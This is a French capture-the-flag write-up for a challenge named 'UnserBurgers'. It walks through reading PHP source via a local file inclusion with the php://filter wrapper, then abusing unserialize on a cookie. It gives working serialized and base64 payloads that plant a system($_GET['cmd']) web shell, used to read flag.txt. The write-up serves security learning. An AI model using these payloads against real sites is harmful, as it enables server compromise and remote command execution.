



# UnserBurgers

En regardant le site web, on peut voir que les pages sotn construites avec `http://35.181.252.51:11150/?page=`. L'url fait tout de suite penser à une inclusion. 

En regardant de plus près, j'ai remarqué que `http://35.181.252.51:11150/?page=order`pointe vers `http://35.181.252.51:11150/order.php`. Ce comportement fait penser à une LFI (Local File Inclusion).

Après quelques essais, j'ai réussi à utiliser le wrapper base64, afin de récupere le code source de la page avec l'url `http://35.181.252.51:11150/?page=php://filter/read=convert.base64-encode/resource=page-a-recuperer`.





Voici les parties interéssantes :

- index.php :

```php
ini_set('display_errors','Off');
ini_set('error_reporting', E_ALL );

# Display page
if(isset($_GET["page"])){
    $tmp = $_GET["page"];
        if(strlen($tmp) <= 70){
            $_page = $_GET["page"];
        }else $_page = "home";
}else $_page = "home";

$page = "$_page.php";

# Create burger
require_once('./classes/Burger.class.php');
require_once('./classes/Sauce.class.php'); // TODO - remove because this class is not used!

if(isset($_POST["saveBurger"])){
    if(isset($_POST["burgerName"]) && !empty($_POST["burgerName"])){
        if(isset($_POST["buyerName"]) && !empty($_POST["buyerName"])){
            if(isset($_POST["ingredients"]) && !empty($_POST["ingredients"])){
                $burgerName = htmlspecialchars($_POST["burgerName"]);
                $buyerName = htmlspecialchars($_POST["buyerName"]);
                $burger = new BigFatBurger\Burger($burgerName, $buyerName);

                foreach($_POST["ingredients"] as $ingredient){
                    $burger->add($ingredient);
                }
                setcookie("burger", base64_encode(serialize($burger)), time() + (86400 * 30), "/");

                $msgok = "<span class='ok'>Your burger is built, you can order it!</span>";
            }
        }else $msgerror = "<span class='error'>Please give your name</span>";
    }else $msgerror = "<span class='error'>Please name your burger</span>";
}

# Order burger
if(isset($_POST["orderBurger"])){
    $msgok = "<span class='ok'>Your burger is on the way!</span>";
}
```

- order.php: 

```php
<?php if(isset($_COOKIE["burger"]) && !empty($_COOKIE["burger"])){ ?>
    <p>
        Is your burger ready?<br>
        Cool, click on the "order" button and pick it up at the restaurant.<br>
        Don''t forget your money, no credit given! =)<br>
    </p>
    <form method="post" action="">
        <div class="form-footer">
            <input class="submit" type="submit" name="orderBurger" value="Order your burger <<?php echo unserialize(base64_decode($_COOKIE['burger']))->getName(); ?>>"/>
            <?php if(isset($msgok)) echo $msgok; ?>
        </div>
    </form>
    <?php }else{ ?>
    <p>
        You haven't built your burger yet, so we don't know what you want inside!<br>
        Go back to <a href="?page=build">this page</a>, choose the ingredients and come back here.
    </p>
    <?php } ?>
```

- classes/Burger.class.php (reférencé dans index.php) :

```php
namespace BigFatBurger;

class Burger{
    public $name;
    public $buyerName;
    public $ingredients;

    public function __construct($name, $buyerName){
        $this->name = $name;
        $this->buyerName = $buyerName;
        $this->ingredients = array();
    }

    public function getName() {
        return $this->name;
    }

    public function setName($name) {
        $this->name = $name;
    }

    public function add($ingredient){
        $this->ingredients[] = $ingredient;
    }

    public function display(){
        return "You (" . $this->buyerName . ") bought the burger: " . $this->name;
    }

    public function __wakeup(){
        $this->display();
    }
    
}
```


- classes/Sauce.class.php (reférencé dans index.php) :

```php
namespace SauceTooSpicy;

class Sauce {
    public $name;
    public $spiciness;

    public function __construct($name, $spiciness) {
        $this->name = $name;
        $this->spiciness = $spiciness;
    }

    public function getName() {
        return $this->name;
    }

    public function setName($name) {
        $this->name = $name;
    }

    public function getSpiciness() {
        return $this->spiciness;
    }

    public function setSpiciness($spiciness) {
        if ($spiciness >= 1 && $spiciness <= 5) {
            $this->spiciness = $spiciness;
        } else {
            $this->spiciness = 1;
        }
    }

    public function __toString() {
        file_put_contents("sauce.out.{$this->spiciness}", $this->name);
        return "";
    }
}
```

En regardant le code, on peut voir que le site génère un cookie en base64. Ce cookie contient les variables serialisés de la classe `Burger`. Le cookier ressemble à `METTRE UN COOKIE` -> `METTRE UN COOKIE DECODE`. L'avantage de la sérialisation est qu'il est possible de modifier les type, ce qui es particulièrement utile quand on donne un objet entier.


En regardant de plus près le code de `Burger`, il n'y a rien d'interéssant, cependant, la classe `Sauce`, elle, écrit la variable `name` dans un fichier dont on peut controller le nom.


Afin d'injecter cette classe, il suffit juste de modifier le cookie serialisé. `O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";s:5:"test1";s:9:"spiciness";s:5:"test2";}`-> `TzoxOToiU2F1Y2VUb29TcGljeVxTYXVjZSI6Mjp7czo0OiJuYW1lIjtzOjU6InRlc3QxIjtzOjk6InNwaWNpbmVzcyI7czo1OiJ0ZXN0MiI7fQo=`




Cependant, nous n'avons toujours pas créé le fichier, car à aucun moment le script n'a fait un `echo $burger`. En effet, le seul appel à notre objet est

```php
echo unserialize(base64_decode($_COOKIE['burger']))->getName();
```

dans `order.php`.

Il faut donc trouver un moyer de fair un `echo` de notre class. Pour ce faire, il suffit de créer un objet Sauce, qui contient un attribut `name` lié à un autre objet sauce, qui lui sera affiché au moment de l'affichage du nom du premier objet.

```
O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";O:19:"SauceTooSpicy\Sauce":2:{s:4:"name";s:35:"<?php echo system($_GET['cmd']); ?>";s:9:"spiciness";s:5:"a.php";}s:9:"spiciness";s:5:"aaaaa";}
```

```
TzoxOToiU2F1Y2VUb29TcGljeVxTYXVjZSI6Mjp7czo0OiJuYW1lIjtPOjE5OiJTYXVjZVRvb1NwaWN5XFNhdWNlIjoyOntzOjQ6Im5hbWUiO3M6MzU6Ijw/cGhwIGVjaG8gc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+IjtzOjk6InNwaWNpbmVzcyI7czo1OiJhLnBocCI7fXM6OToic3BpY2luZXNzIjtzOjU6ImFhYWFhIjt9Cg==
```

Au chargement de la page `order.php`, le script suivant sera éxecuté :

```php
public function __toString() {
    file_put_contents("sauce.out.{$this->spiciness}", $this->name);
    return "";
}
```

sur l'objet :

```
"SauceTooSpicy\Sauce":2:{s:4:"name";s:35:"<?php echo system($_GET['cmd']); ?>";s:9:"spiciness";s:5:"a.php";}
```

Cela aura pour effet de créer la page `sauce.out.a.php`. Cette page est accessible via l'url `http://35.181.252.51:11150/?page=sauce.out.a&cmd=whoami`.




En faisant quelques `ls`, on retrouve le fichier flag.txt.

On peut donc récupere le flag avec un cat.


Merci pour le chall !